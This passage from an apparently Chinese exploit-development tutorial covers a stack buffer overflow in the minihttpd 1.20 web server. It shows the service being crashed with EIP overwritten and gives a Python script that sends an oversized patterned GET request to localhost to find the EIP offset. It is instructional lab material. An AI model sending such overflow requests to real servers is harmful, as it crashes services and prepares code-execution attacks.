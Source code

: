 ```python
# Receive data until the socket is closed.
data = b""
while True:
    chunk = s.recv(1024)
    if not chunk:
        break
    data += chunk

s.close()
print('Received', repr(data))
```

下载minihttpd120.lzh后进行解压（与zip或rar类似），点击运行`minihttpd.exe`就开启web服务了，访问`http://localhost`可以看到404 Not Found，说明我们程序正常运行：

![Pasted image 20240328193246.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-ef9275dc6765d53769e3c2915f76e259d421cfdd.png)

接着运行poc，来打崩服务：

![Pasted image 20240328171003.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-49d5f08dc9aa229681522c0f01951945556978b0.png)

可以看到`eip=41414141`，此刻eip指针已经被覆盖了，我们需要确定一下多长覆盖的eip，使用下面的脚本：

```python
import sys
import socket

# Create the buffer.
buffer = ""

for i in range(10):
    buffer += chr(ord('A') + i) * 1000

HOST = '127.0.0.1'
PORT = 80

req = "GET /" + buffer + " HTTP/1.1\r\n\r\n"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
s.send(req.encode())

# Receive data until the socket is closed.
data = b""
while True:
    chunk = s.recv(1024)
    if not chunk:
        break
    data += chunk

s.close()
print('Received', repr(data))
```
